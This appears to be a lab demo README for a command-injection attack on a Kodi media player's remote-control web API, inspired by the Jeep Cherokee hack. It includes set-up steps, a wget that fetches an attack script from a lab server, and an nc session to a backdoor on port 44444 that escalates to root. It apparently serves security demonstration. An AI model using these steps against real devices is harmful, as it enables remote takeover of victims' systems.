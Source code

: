 # Command Line Injection Attack

**Attack description** Victim host (say embedded / IoT device that runs Linux) runs Mediaplayer (Kodi client), and it exports remote control API as a web service. One of its input sanitizations has an error that failing to filter invalid input from the outside, in turn allowing attackers to inject arbitrary command blended in one of its requests. This attack is inspired by the Jeep-Cherokee attack case where the attacker from remote gains control over the vehicle. 

## Instruction


## Installation and set-up

### Packages to install and configuration

```
sudo apt install kodi d-feet python-pip
sudo apt install libdbus-1-dev libdbus-glib-1-dev
pip install dbus
pip3 install dbus
```

* After installing Kodi, you need to do the followings
    1. Install `Youtube` video add-on
    2. Configure `remote control via HTTP` which is under `setting` --> `service settings` --> `control`
        * Port number hostname: localhost, port: 8080, username: kodi, password: kodi     
            * **[NOTE]** above configuration needs to be consistent with configuration in `/usr/local/bin/kodi-cli`

            ```
            304 ## ---- Configuration --- ##
            305 ## Configure your KODI RPC details here
            306 KODI_HOST=localhost
            307 KODI_PORT=8080
            308 KODI_USER=kodi
            309 KODI_PASS=kodi
            310 LOCK=false
            ```

### KODI configuration

1. User systemd configuration 
    * Download files from http://www.syssec.org:9000/lvCuc/kodi.tar 
    * Copy files to local user systemd directory `$HOME/.config/systemd/user`
    * Enable services by running the following commands
    ```
    systemctl --user enable kodi_dbus
    systemctl --user enable kodi_web
    ```
    
    * Check the status of services using the following commands
    ```
    systemctl --user status kodi_dbus
    systemctl --user status kodi_web
    ```
    
    **[NOTE]** If the above services are not running correctly, 
    ```
    /usr/bin/python3 /opt/NECLA/SBrainDemo/kodi_dbus.py
    /usr/bin/python /opt/NECLA/SBrainDemo/kodi_web.py
    ```

2. Install remote control Kodi 
    * Download file from http://www.syssec.org:9000/OG3qe/sbdemo.tar
    * Untar files and copy those under `/opt/NECLA/`
    * copy `kodi-cli` from `/opt/NECLA/SBrainDemo/` to `/usr/localbin/`

## Attack procedure

### Set-up

* attacker host: wlab2-lin1
* victim host: wlab2-lin0

### Attack operation
0. Login to victim host and make sure kodi media player is running. The following is captured screen from remote deskop. 
    
![](https://i.imgur.com/YiMrl7b.jpg =400x)


1. Login to attacker host
2. Download attack script with the following command
    ```
    wget http://www.syssec.org:9000/KOQ4R/cmd-injection.py
    ```
3. Run python script `python cmd-injection.py <victim-ip>`
    * scripting will run for about a minute and connect to victim host and open a backdoor at port 44444

4. Connects to victim's backdoor
```
$ nc  wlab2-lin0 44444
id
uid=1000(white-lab0) gid=1000(white-lab0) groups=1000(white-lab0)
sudo su -
id
uid=0(root) gid=0(root) groups=0(root)
hostname
wlab2-lin0
```

### Regular operation

In normal situation, users will connect to web service and remotely control media player. Webservice is open at lambda3 and accessible via http://lambda3:8001 

* From the service, you should be able to see the following interface.

![](https://i.imgur.com/PwuivLD.jpg =300x)


## Resources



###### tags: `kodi`,`linux`,`attack`,`injection`